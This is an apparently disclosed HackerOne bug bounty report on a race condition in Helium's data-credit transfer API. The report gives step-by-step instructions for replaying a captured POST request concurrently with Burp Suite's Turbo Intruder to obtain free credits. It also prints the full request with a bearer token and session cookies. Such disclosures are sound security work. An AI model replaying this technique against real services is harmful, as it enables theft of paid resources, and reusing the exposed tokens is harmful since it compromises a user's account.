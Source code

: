# Race Condition of Transfer data Credits to Organization Leads to Add Extra free Data Credits to the Organization

## Report Details
- **Report ID**: 974892
- **URL**: https://hackerone.com/reports/974892
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-04T18:32:29.095Z
- **Disclosed**: 2020-11-27T17:01:25.187Z

## Reporter
- **Username**: eissen5c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: helium

## Vulnerability Information
#Description
i found an way to add data credits for free by doing race condition of transfering data credits using turbo intruder of burpsuite

when created an account with only default 10000 data credits but i managed it to add for free without buying or purchasing 

#POC Steps (if Confused refer POC Video)

* Create two Org A and B
* Go to Data Credits of that have balance of 10000
* Before Making Transfer make sure the burp suite is intercept on 
* then click transfer and make sure you see the HTTP Request of "https://console.helium.com/api/data_credits/transfer_dc" in popup example below

```
POST /api/data_credits/transfer_dc HTTP/1.1
Host: console.helium.com
Connection: close
Content-Length: 66
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IndsbXNzZUJDY01oSjdpQ3RjZ2wyeiJ9.eyJuaWNrbmFtZSI6ImVpc3NlbjVjKzIiLCJuYW1lIjoiZWlzc2VuNWMrMkB3ZWFyZWhhY2tlcm9uZS5jb20iLCJwaWN0dXJlIjoiaHR0cHM6Ly9zLmdyYXZhdGFyLmNvbS9hdmF0YXIvM2E1YTY3MjhlODkyN2YxYTgxYmJiZWQzY2I0MGI2OWI_cz00ODAmcj1wZyZkPWh0dHBzJTNBJTJGJTJGY2RuLmF1dGgwLmNvbSUyRmF2YXRhcnMlMkZlaS5wbmciLCJ1cGRhdGVkX2F0IjoiMjAyMC0wOS0wNFQxNzo1NDowNy4xMjFaIiwiZW1haWwiOiJlaXNzZW41YysyQHdlYXJlaGFja2Vyb25lLmNvbSIsImVtYWlsX3ZlcmlmaWVkIjp0cnVlLCJpc3MiOiJodHRwczovL2F1dGguaGVsaXVtLmNvbS8iLCJzdWIiOiJhdXRoMHw1ZjUyN2YwYTMzYzBhMjAwNmQ1OTJjNDkiLCJhdWQiOiJiSGx0N043MEhPVHFZSkJ2R2NvbjFsQVJGcDc4WFczMyIsImlhdCI6MTU5OTI0MjI0NCwiZXhwIjoxNTk5Mjc4MjQ0LCJub25jZSI6InJhQ25sSE1kM1o4cERManNORUt0Rk80R2ZBZlRkUDdfUkIyWXRGNTB4MlcifQ.LdiVe8woYQ9nKky6s9x0AdcH75gf0lrSqO9wWhTW6aD38VDesRgZQZcopvKWwltdv0g6cfd0qSc0NOXSTJU-YCxnM_SmTwQdzz_w7t3tdj4H4NPMgxvk7Wi0Q0Ot5gnBFy-Hs43kNq_6JgON2fdOd3ANxTPyKo10sp_z_9I6XoPydUKl0vWOqCAAtqWY09yKnsAcUOiKAvwlToyRPpyzb0CiB2CkITgXRpq5I5dkx0MSikgfOtbMgHwXIwyR4221VaU9quZ21gHCj5h_b-eS5ZDK8c5lqrjheNHv0hSSquDOUJ-PJuZIXmdzthC4nDNUXFr56h5yBxdwvz14mF-xIQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
organization: 9eda512e-7d7b-4884-95a1-05289cd0986f
Content-Type: application/json
Origin: https://console.helium.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://console.helium.com/datacredits/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: __cfduid=d6c96a4a7e23c1a9288364ad41fe940441598519944; __stripe_mid=38940331-8c51-426f-9677-d823149a19c5e78eb8; intercom-id-uj330shp=8a7342fa-569f-458d-8a48-99a7d7b04ce8; intercom-session-uj330shp=; _ga=GA1.2.619170841.1599241231; _gid=GA1.2.1901543145.1599241231; ajs_anonymous_id=%22b9db00a3-41f6-494d-a4a5-7d536b460f69%22; _fbp=fb.1.1599241231521.572784627; a0.spajs.txs.bmJZUTBDWEJvVVJZWTQ1eE8xNmp2NWRLMWVmfi5UNFZ0bUxNWDYyQ3g0cA%3D%3D={%22nonce%22:%22SJi.KgEbopUDCs8F2D0kIH88ijdqst6UStDRbHkTLra%22%2C%22code_verifier%22:%22RlDt9XH2A5lQhpXebqa1eK5V1-jM_0bvJq-IsIWDWQ5%22%2C%22appState%22:{%22targetUrl%22:%22/%22%2C%22params%22:%22%22}%2C%22scope%22:%22openid%20profile%20email%22%2C%22audience%22:%22default%22%2C%22redirect_uri%22:%22https://console.helium.com%22}; __stripe_sid=caa82502-18e1-4d95-adc4-af3a7c1c238ef69a16; auth0.is.authenticated=true; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6IjUzMDMzZDY4LTc1NTMtNDhmNC05YmY5LWQ0NDZhOTE1NWUyZFIiLCJ1c2VySWQiOm51bGwsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTU5OTI0MTMxOTIyMywibGFzdEV2ZW50VGltZSI6MTU5OTI0MjIxOTg3NywiZXZlbnRJZCI6NTYsImlkZW50aWZ5SWQiOjI0LCJzZXF1ZW5jZU51bWJlciI6ODB9

{"countDC":"10000","orgId":"51e43268-248d-430d-8f3a-8a9de94bdcc9"}
```
* Send it to Turbo Intruder and Select Race.py Script
* Go Boom execute and refresh the balance

# POC Image

### Race Condition
* {F976455}

### Race Condition
* {F976456}

### Data Credit History
* {F976463}

### Organization View with Data Credit Balance
* {F976465}

### Email Notification
* {F976469}


# POC Video (PS . i uploaded on dropbox due to slow internet connection and problems uploading to hackerone directly sorry about that)
https://www.dropbox.com/s/8xuipexpiyz7lp3/2020-09-05%2002-02-41.mkv?dl=0

## Impact

Abusing the Race Condition inorder to add extra free data Credits to the organization without buying and lead to business impact

## Attachments
- POC1.PNG
- POC2.PNG
- POC3.PNG
- POC4.PNG
- POC5.PNG
